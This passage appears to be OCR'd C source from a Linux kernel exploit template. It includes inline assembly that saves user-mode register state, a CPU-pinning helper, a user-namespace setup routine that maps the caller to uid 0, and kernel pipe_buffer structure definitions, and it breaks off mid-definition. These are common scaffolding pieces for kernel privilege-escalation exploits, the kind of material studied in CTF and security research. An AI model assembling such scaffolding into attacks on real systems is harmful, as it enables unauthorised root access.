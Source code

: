 ```c
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    printf("\033[34m\033[1m[*] Status has been saved.\033[0m\n");
}

/* bind the process to specific core */
void bind_core(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    printf("\033[34m\033[1m[*] Process binded to core \033[0m%d\n", core);
}

/**
 * @brief create an isolate namespace
 * note that the caller **SHOULD NOT** be used to get the root, but an operator
 * to perform basic exploiting operations in it only
 */
void unshare_setup(void)
{
    char edit[0x100];
    int tmp_fd;

    unshare(CLONE_NEWNS | CLONE_NEWUSER | CLONE_NEWNET);

    tmp_fd = open("/proc/self/setgroups", O_WRONLY);
    write(tmp_fd, "deny", strlen("deny"));
    close(tmp_fd);

    tmp_fd = open("/proc/self/uid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getuid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);

    tmp_fd = open("/proc/self/gid_map", O_WRONLY);
    snprintf(edit, sizeof(edit), "0 %d 1", getgid());
    write(tmp_fd, edit, strlen(edit));
    close(tmp_fd);
}

struct page;
struct pipe_inode_info;
struct pipe_buf_operations;

/* read start from len to offset, write start from offset */
struct pipe_buffer {
	struct page *page;
	unsigned int offset, len;
	const struct pipe_buf_operations *ops;
	unsigned int flags;
	unsigned long private;
};

struct pipe_buf_operations {
	/*
	 * ->confirm() verifies that the data in the pipe buffer is there
```